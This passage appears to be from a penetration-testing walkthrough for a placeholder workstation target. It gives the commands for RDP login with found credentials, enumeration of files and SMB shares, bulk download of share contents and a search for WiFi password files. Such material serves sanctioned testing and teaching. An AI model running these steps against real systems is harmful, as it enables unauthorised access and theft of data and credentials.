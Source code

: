 ## Phase 3: Initial Access and Workstation Enumeration

### Step 3.1: RDP Access

```bash
# Connect with discovered credentials
xfreerdp /v:$TARGET_WS /u:jsmith /p:Welcome1 /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp

# Alternative RDP clients
rdesktop -u jsmith -p Welcome1 $TARGET_WS -g 1024x768 -r disk:share=/tmp
```

### Step 3.2: File System Exploration

Once on the system, explore common workstation locations:

```powershell
# User profiles
Get-ChildItem C:\Users\ -Force

# Common document locations
Get-ChildItem C:\Users\Public\Documents -Recurse -Force
Get-ChildItem C:\Users\Public\Downloads -Recurse -Force
Get-ChildItem C:\Users\$env:USERNAME\Desktop -Force
Get-ChildItem C:\Users\$env:USERNAME\Documents -Force

# Look for interesting files
Get-ChildItem -Path C:\ -Include *.txt,*.doc*,*.xls*,*.pdf,*.config -Recurse -ErrorAction SilentlyContinue | Select-Object FullName, Length, LastWriteTime
```

### Step 3.3: SMB Share Enumeration

```bash
# List workstation shares
smbmap -H $TARGET_WS -u jsmith -p Welcome1

# Access each share
smbclient //$TARGET_WS/Users -U jsmith%Welcome1
smb: \> recurse on
smb: \> prompt off
smb: \> dir

# Download everything for analysis
smb: \> mget *
```

### Step 3.4: Sensitive File Discovery

Look for typical workstation files:

```powershell
# WiFi passwords
Get-ChildItem -Path C:\ -Recurse -Include "*wifi*","*wireless*" -ErrorAction SilentlyContinue
type C:\Users\Public\Documents\wifi.txt
```
